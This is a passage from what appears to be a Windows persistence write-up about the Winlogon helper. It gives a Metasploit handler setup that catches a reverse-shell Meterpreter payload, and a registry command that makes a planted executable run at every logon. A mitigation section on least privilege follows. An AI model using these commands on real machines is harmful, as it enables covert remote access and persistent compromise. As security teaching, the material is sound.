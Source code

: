 ```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <YOUR_IP_ADDR>
set LPORT 4444
exploit
```
![](./screenshots/16.png)

or use the commands<br>
```powershell
reg add “HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon” /v Userinit /t REG_SZ /d “C:\Windows\System32\userinit.exe,C:\Windows\System32\hack2.exe” /f

```


# Mitigation
To mitigate the risks associated with unauthorized modifications to the `Winlogon` helper, several key strategies should be considered. These mitigations are designed to both prevent unauthorized changes and to detect any such changes if they occur.

## 1. Restrict User Account Privileges
The primary recommendation is to limit the ability to modify the Winlogon helper to authorized administrators only. This can be achieved through the **Principle of Least Privilege (PoLP)**, which restricts user access rights to the minimum necessary for their job functions. By ensuring that non-administrative users do not have the permissions required to alter critical system settings, the risk of accidental or malicious modifications is significantly reduced .
